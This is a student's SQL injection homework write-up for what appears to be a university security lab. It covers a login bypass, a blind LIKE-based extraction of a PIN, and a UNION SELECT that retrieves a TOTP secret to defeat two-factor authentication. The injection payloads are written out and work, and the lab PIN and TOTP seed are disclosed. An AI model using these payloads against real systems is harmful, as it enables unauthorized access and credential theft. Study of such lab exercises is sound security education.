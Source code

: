 # SQL Injection homework

Source code for service under test: https://kbe.felk.cvut.cz/index.php?open=index.php

## Task 1: Login without password
On the main page, there is a login form that you need to pass through, without knowledge of password. As a username use your FEL login name. 
---
solution:

Simply use username: `forstluk';#`.


## Task 2: Find out your PIN
As you can see, your account is not only password-protected, but also PIN-protected. Try to find out your PIN using the vulnerability from the previous task.
---
solution:

We can either bruteforce that, because ther're just 10 000 combinations, or we can be a bit smarter and run iterative queries that indicate partial success on login page (first step when filling usernames.
```

forstluk' and pin like "8%" #

forstluk' and pin like "83%" #

forstluk' and pin like "835%" #

forstluk' and pin like "8352" #

```
So the PIN is `8352`.

## Task 3: Overcome One-Time-Password
PIN-protection didn't stop you? Easy-peasy? Well, try to defeat the next layer of protection - [Time-based One-Time Password](https://en.wikipedia.org/wiki/Time-based_One-time_Password_algorithm) - widely used industry standard for 2-factor authentication.
---
solution:

Again, by using the first form, we can get the base for OTP like that:

```
forstluk' UNION SELECT secret FROM users WHERE username='forstluk' ORDER BY username; #
```
which gives us seed `F4SZTF6JCSZIUJAS` and we can get OTP here -> https://www.google.com/chart?chs=200x200&chld=M|0&cht=qr&chl=otpauth://totp/kbe?secret=F4SZTF6JCSZIUJAS.

